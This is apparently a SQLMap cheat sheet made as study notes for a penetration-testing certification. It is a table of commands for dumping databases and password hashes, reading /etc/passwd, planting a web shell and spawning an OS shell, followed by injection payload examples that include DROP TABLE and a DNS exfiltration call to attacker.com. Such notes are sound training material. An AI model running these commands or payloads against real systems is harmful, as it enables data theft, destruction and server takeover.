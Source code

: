 ```yaml
---
layout: post
title: "SQLMap Essentials"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 14
---
```


| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch` | `-r Case2.txt`: read the raw HTTP request `POST /case2.php?id=1 HTTP/1.1` from **Case2.txt**; `--threads 10`: use 10 threads for faster scanning; `--dump -T flag2`: dump all data from table **flag2**; `--batch`: run non-interactive (use defaults for all prompts) |
| `sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch` | `-r Case3.txt`: read raw HTTP request from file; `-p cookie`: target the **cookie** parameter; `--threads 10`: use 10 threads; `--dump -T flag3`: dump all data from **flag3**; `--batch`: non-interactive mode |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

---

## Supported SQL Injection Types

*We see the types of SQL injections supported by SQLMap with the sqlmap -hh command*

**The technique characters BEUSTQ refers to the following:**

B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries

| **Letter** | **Type**                   | **Description**                                                                                                                  | **Example**                                           |
|------------|----------------------------|----------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------|
| B          | Boolean-based blind        | Differentiates TRUE/FALSE by comparing server responses (content, HTTP code, title, etc.), retrieving ~1 byte per request.       | `AND 1=1` vs. `AND 1=2`                               |
| E          | Error-based                | Leverages DBMS error messages to carry query results (“chunks” up to ~200 bytes).                                               | `AND GTID_SUBSET(@@version,0)`                        |
| U          | Union query-based          | Appends a `UNION SELECT` to combine original results with injected data, potentially dumping entire tables in one go.           | `UNION ALL SELECT 1,@@version,3`                      |
| S          | Stacked queries            | “Piggy-backs” multiple SQL statements (INSERT/UPDATE/DELETE/OS commands) if the platform allows it (e.g. MSSQL, PostgreSQL).    | `; DROP TABLE users`                                  |
| T          | Time-based blind           | Uses response delays (e.g. `SLEEP()`) to infer TRUE/FALSE when Boolean-blind isn’t possible (e.g. non-query contexts).           | `AND IF(2>1,SLEEP(5),0)`                              |
| Q          | Inline queries             | Embeds a sub-query within the original statement to return data inline; less common but supported if the app’s SQL allows it.    | `SELECT (SELECT @@version) FROM users`                |
| OOB        | Out-of-Band (DNS exfil)    | Forces the DBMS to make external DNS requests carrying query results (e.g. via `LOAD_FILE(CONCAT('\\\\',@@version,…))`).       | `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\x'))` |

---
